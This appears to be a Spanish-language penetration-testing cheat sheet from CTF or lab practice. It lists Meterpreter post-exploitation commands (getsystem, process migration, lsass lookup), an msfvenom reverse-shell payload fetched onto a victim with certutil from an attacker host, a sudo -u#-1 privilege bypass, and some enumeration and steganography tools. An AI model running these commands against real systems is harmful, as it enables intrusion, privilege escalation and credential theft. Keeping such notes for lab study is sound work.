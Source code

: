 
getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
pgrep lsass = buscar id de lsass 
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag
whoami priv > ver privilegios windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe
python -m SimpleHTTPServer 80
windows: certutil -urlcache -f http://LHOST/payload.exe > descarga  archivo en victima
msfc > use multihandler
	set payload windows/x64/meterpreter/reverse_tcp
		set LHOST
		set LPORT
Al ejecutar el payload en la victima obtenemos un meterpreter ss.
	meterpreter> search (para buscar el unattend.xml)

ENUM WEB
wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
gobuster -u URL -w WORDLIS -t (velocidad) --no-error -k (para ignorar certs)


IMAGENES y ARCHIVOS
exiftool archivo  > ver datos del archivo
steghide extract --sf archivo.jpg > podemos ver si tiene archivo con info
strings nos trae los datos del archivo
file para ver de que tipo es un archivo
find / -perm -u=s -type f 2>/dev/null


sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt


HASH
base64 -d archivo.txt > decode base64 linux

psexec.py USUARIO@IP > nos conectamos a una maquina windows si tiene smb
	tambien esta disponible el modulo en msfconsole


Estabilizar Terminal:
	python3 -c 'import pty;pty.spawn("/bin/bash")'



